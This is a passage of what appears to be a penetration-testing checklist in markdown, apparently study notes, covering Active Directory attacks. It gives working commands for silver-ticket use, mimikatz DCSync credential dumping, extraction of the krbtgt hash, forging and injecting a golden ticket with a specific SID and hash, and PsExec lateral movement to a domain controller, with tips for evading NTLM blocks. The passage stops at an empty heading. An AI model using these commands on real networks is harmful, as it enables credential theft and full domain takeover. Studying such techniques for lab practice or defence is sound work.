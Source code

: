 - [ ] Confirm that ticket is ready to use in memory, on the Target Machine
```powershell
klist
```

- [ ] Access the SMB share with the silver ticket as chosen user (E.g., hentaiadmin), on the Target Machine
```powershell
iwr -UseDefaultCredentials http://web69
```
#### Domain Controller Synchronization

- [ ] Obtain access as a member of either the Domain Admins, Enterprise Admins, and Administrators, on the Target Machine

- [ ] Obtain NTLM hash of domain user by impersonating a domain controller using replication, on the Target Machine
```powershell
.\mimikatz.exe
lsadump::dcsync /user:hentai\salesman
```
#### Forging Golden Ticket
- [ ] Obtain NTLM hash of the krbtgt account by RDP-ing into the domain controller with a privileged account, on the Target Machine
```powershell
.\mimikatz.exe
privilege::debug
lsadump::lsa /patch
```

- [ ] Obtain the domain SID on the Target Machine
```powershell
whoami /user
```
- Remove the last part of the SID

- [ ] Create golden ticket on any machine on any user, deleting any existing Kerberos tickets and launch a new command prompt, on the Target Machine
```powershell
kerberos::purge
kerberos::golden /user:salesman /domain:hentai.com /sid:S-1-5-21-1736980269-669056969-1784818369 /krbtgt:182cd1c7afffc7af11ef346fef693c69 /ptt
misc::cmd
```
- Creating the golden ticket and injecting it into memory does not require any administrative privileges
- Can be performed from a computer that is not joined to the domain.

- [ ] Attempt lateral movement on the newly spawned command prompt on the Target Machine
```powershell
PsExec.exe \\Dc1 cmd.exe
```
- DO NOT connect with the IP address of the domain
	- This forces the use of NTLM authentication and access would still be blocked
### Shadow Copies

